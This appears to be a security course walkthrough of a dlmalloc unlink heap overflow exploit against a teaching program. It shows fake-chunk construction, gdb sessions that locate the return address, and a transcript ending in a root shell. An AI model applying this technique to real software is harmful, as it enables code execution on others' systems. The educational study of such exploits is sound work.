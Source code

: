 # Heap Overflow Walkthrough

## Vulnerability

The vulnerability in this [program](vuln.cpp) is due to an improperly bounded
copy into `msg` in `RecvMsg`.  Since this program is uses
[dlmalloc](malloc.c), this allows an attacker to inject fake chunks to perform
an unlink exploit as described in class.

## Exploitation

Since the program frees `msg` after the copy occurs, we will use the strategy
of creating fake free chunks to force a chunk consolidation using `unlink`
during the `free` operation.  The goal will be to force `unlink` to overwrite
a saved instruction pointer for the return to `main` on the stack.

The first order of business is to find the address of the return to main, as
well as the address of our payload on the heap.  To do this, we'll first
need to create a temporary input to provide sizes for the two chunks to
allocate.  An example script to do this might look like:

```python
import sys, struct
sys.stdout.write(struct.pack('<H', 256, 256))
```

Now, using gdb to run the program on the output of the above:

```
# Launch gdb on the program
$ gdb vuln

# Break on RecvMsg
(gdb) b RecvMsg(int)
Breakpoint 1 at 0x400d58: file vuln.cpp, line 13.

# Run on the input
(gdb) r <buf
Starting program: /home/wkr/host/Devel/Class/SoftVulnSec/Examples/heap/vuln <buf
Breakpoint 1, RecvMsg (sk=0) at vuln.cpp:13

# Step up to the allocations
13      memset(&hdr, 0, sizeof(hdr));
(gdb) n
14      read(sk, &hdr.len_, 2);
(gdb)
15      read(sk, &hdr.opts_len_, 2);
(gdb)
16      char* msg = reinterpret_cast<char*>(malloc(hdr.len_));
(gdb)
17      char* msg_opts = reinterpret_cast<char*>(malloc(hdr.opts_len_));
(gdb)
19      char* ptr = msg;

# Print the address of msg
(gdb) p/x msg
$1 = 0x60b010

# Find the address of the saved return to main
(gdb) bt
#0  RecvMsg (sk=0) at vuln.cpp:19
#1  0x0000000000400e62 in main (argc=1, argv=0x7fffffffe618) at vuln.cpp:34
(gdb) x/2xg $rbp
0x7fffffffe510: 0x00007fffffffe530  0x0000000000400e62
```

Ok, so the first chunk's data starts at 0x60b010, and 256 bytes is enough for
our payload.  And, the address of the overwrite should be 0x7fffffffe518.

To abuse `unlink`, we then need to create a fake chunk with the `fd` and `bk`
pointers set to 0x7fffffffe518 - 24 and somewhere near 0x60b010 to slide into
the payload we will inject.  That leaves the `prev_size` and `size` fields to
set -- for the former, we can use an arbitrary value since the allocator
considers `prev_size` as part of the user data of the previous chunk in
memory (that must be allocated, otherwise we would have two adjacent free
chunks) and, for the latter, we can choose an arbitrary size ORed with the
PREV_INUSE bit.  In this walkthrough, we'll create a 64 byte chunk | 1 = 65.

The following python snippet will create a fake chunk described above.

```python
struct.pack('<QQQQ', 1, 65, 0x7fffffffe518 - 24, 0x60b010)
```

Note that we can't return directly to 0x60b010, however.  This is because
during the consolidation process, `unlink` will also set 0x60b010 + 16 to
a value dereferenced from around the `fd` pointer.  So, we need to adjust
our strategy a bit to avoid jumping into a corrupted portion of our payload.

Specifically, what we will do is return to an address that we know won't
be corrupted, and then insert a jump instruction over any following
corruption due to the above process.  In this walkthrough, we will return
to 0x60b040, where we will have inserted a `jmp 0x20` instruction.

The [example exploit](exploit.py) packages all of this together.  For good
measure, we create a second fake chunk, but this isn't strictly necessary
for this vulnerability.

Below is a transcript of the exploit in action.

```
# Execute on the output of exploit.py and break at line 28
Breakpoint 2, RecvMsg (sk=0) at vuln.cpp:28
28      free(msg);

# Header of the first chunk (fd and bk pointers used for user data)
(gdb) x/4xg msg - 0x10
0x60b000:   0x0000000000000000  0x0000000000000113
0x60b010:   0x9090909090909090  0x9090909090909090

# Header of the first fake chunk we've injected
(gdb) x/4xg msg_opts - 0x10
0x60b110:   0x0000000000000001  0x0000000000000041
0x60b120:   0x00007fffffffe500  0x000000000060b040

# Overwrite target on the stack, prior to unlink
(gdb) x/2xg $rbp
0x7fffffffe510: 0x00007fffffffe530  0x0000000000400e62

# Execute the free -> ... -> unlink
(gdb) n
30      return 0;

# We've redirected the return to the heap
(gdb) x/2xg $rbp
0x7fffffffe510: 0x00007fffffffe530  0x000000000060b040

# This is where we will return
(gdb) x/8xg 0x000000000060b040
0x60b040:   0x9090909090901eeb  0x9090909090909090
0x60b050:   0x00007fffffffe500  0x9090909090909090
0x60b060:   0x9090909090909090  0x9090909090909090
0x60b070:   0x9090909090909090  0x9090909090909090

# We return to a jmp $rip + 0x20 instruction
(gdb) x/i 0x000000000060b040
   0x60b040:    jmp    0x60b060

# After the jump, we slide down the NOP sled into the payload...
(gdb) x/8i 0x60b060
   0x60b060:    nop
   0x60b061:    nop
   0x60b062:    nop
   0x60b063:    nop
   0x60b064:    nop
   0x60b065:    nop
   0x60b066:    nop
   0x60b067:    nop

# Continuing execs a shell, into which we pipe in an id command
(gdb) c
Continuing.
process 1725 is executing new program: /usr/bin/bash
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),19(log)
[Inferior 1 (process 1725) exited normally]
(gdb)
```
